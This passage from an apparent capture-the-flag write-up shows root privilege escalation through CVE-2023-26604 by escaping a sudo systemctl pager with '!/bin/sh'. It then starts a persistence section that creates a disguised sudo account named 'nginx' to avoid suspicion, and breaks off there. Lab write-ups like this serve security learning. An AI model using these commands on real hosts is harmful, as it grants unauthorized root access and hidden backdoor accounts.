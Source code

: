 
### Discovering The Host Is Vulnerable To CVE-2023-26604: {#discovering-the-host-is-vulnerable-to-cve-2023-26604}

-   I put linpeas on the host but do not find anything of note.

-   As this is a box/ctf I can't help but think that the service I can execute as root does have something to do with the privesc path.

-   I check the version of `systemctl` running:
    -   `systemctl --version`
    -   {{< figure src="/ox-hugo/2024-12-27-130732_.png" >}}
    -   I can see it's version:  `systemd 245 (245.4-4ubuntu3.22)`

-   I search for the phrase "systemd 245 (245.4-4ubuntu3.22) privesc" and find the following page: <https://packetstorm.news/files/id/174130>.
    -   Reading the article it appears that when I request the status of a service e.g:
        ```shell
          sudo systemctl status [service]
        ```

        -   It will open the output in a pager, which allows us to execute additional commands and as this is running in the context of the root user if I type `!/bin/sh` I can launch a root shell.
            -   +Note+: It is also possible to run other commands but for the purpose of this we want RCE in the context of the root user.


### Getting A Reverse Shell Using CVE-2023-26604: {#getting-a-reverse-shell-using-cve-2023-26604}

-   I view the output of the `trail.service` as I can run that in the context of root.
    -   `sudo systemctl status trail.service`
    -   With this open I can now run `!/bin/sh` to launch the root terminal.
    -   {{< figure src="/ox-hugo/2024-12-27-131909_.png" >}}



-   I get the root flag:
    -   {{< figure src="/ox-hugo/2024-12-27-132049_.png" >}}


## 4. Persistence: {#4-dot-persistence}

-   Now that I have root access I would like to retain it so I will demonstrate two simple persistence techniques.


### Creating a high privileged "service" account for persistence: {#creating-a-high-privileged-service-account-for-persistence}

-   I create an account called "nginx" and give myself root privileges &amp; access to the bash shell. I use this name as it's one you could see on a machine and will raise less suspicion.
    -   `sudo useradd -m -s /bin/bash nginx`
        -   Creates a new user named `nginx`.
        -   `-m`: Creates a home directory for the user.
        -   `-s /bin/bash`: Sets the user's default shell to `/bin/bash`.
        -   {{< figure src="/ox-hugo/2024-12-27-132942_.png" >}}
    -   `sudo usermod -aG sudo nginx`
        -   Adds the `nginx` user to the `sudo` group.
        -   `-a`: Appends the user to the group (avoids overwriting existing groups).
        -   `-G sudo`: Specifies the `sudo` group.
